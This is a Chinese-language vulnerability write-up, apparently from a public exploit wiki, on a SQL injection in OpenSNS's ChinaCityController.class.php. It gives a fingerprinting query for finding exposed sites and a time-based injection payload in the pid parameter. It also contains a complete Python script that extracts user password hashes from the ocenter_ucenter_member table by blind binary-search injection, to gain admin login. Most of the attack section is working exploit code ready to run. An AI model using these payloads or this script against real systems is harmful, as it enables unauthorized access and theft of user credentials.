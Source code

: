 # OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc.png)

存在漏洞的文件为`Addons/ChinaCity/Controller/ChinaCityController.class.php`

![img](/assets/PeiQi-Wiki/img/1634530581898-96bfb012-9b06-4000-8688-3f60e59fe5af.png)

其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句

![img](/assets/PeiQi-Wiki/img/1634530661937-f8552b8b-a5c2-4633-9cef-e20b31154085.png)

通过构造请求闭合SQL语句，造成SQL注入

```php
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![img](/assets/PeiQi-Wiki/img/1634531129827-a6c0bd01-e6e8-41a8-a7aa-0d0349843d9e.png)

通过二分法延时注入可以获取用户账号密码，登录后台

```php
import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![img](/assets/PeiQi-Wiki/img/1634531377138-0fc38dc3-684c-41d1-a3bb-974274f025fd.png)